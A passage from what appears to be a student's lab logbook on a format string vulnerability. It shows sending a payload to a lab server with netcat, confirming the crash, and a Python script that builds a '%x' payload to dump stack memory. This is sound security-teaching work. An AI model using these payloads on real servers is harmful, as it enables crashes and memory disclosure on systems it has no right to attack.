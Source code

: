 3. Send the payload to the server using `cat payload.txt | nc -N 10.9.0.5 9090`.
   
4. Read the logs from the server and verify that the program has crashed.
    
Terminal 1 | Terminal 2
:---------:|:---------:
![Server logs after the payload was sent to the server](images/logbook7/task1/02.png) | ![Sending the payload to the server](images/logbook7/task1/03.png)

<br>

## Task 2 : Printing Out the Server Program's Memory

This is divided into two sub-tasks:

### A. Stack Data

To print out the data saved on the stack when the `printf` function is executed.

1. Create a payload where the first 4 bytes are unique and easily identifiable and are followed by a large sequence of `%x` modifiers.
   
    - This will be useful for determining the location of our payload in the stack. We have selected the identifier `0xABCD1234`.
    
    - The `%x` modifiers will print out the values in the stack in hexadecimal representation. We chose to use a sequence of 64 `%x` modifiers.
  
    - In our case, we created the payload with the help of a simple Python script we wrote. 
        
        ```python
        #!/usr/bin/python3
        import sys

        payload = bytearray.fromhex("ABCD1234") + b" %x " * 64

        # Save the format string to file
        with open('badfile', 'wb') as f:
            f.write(payload)
        ```
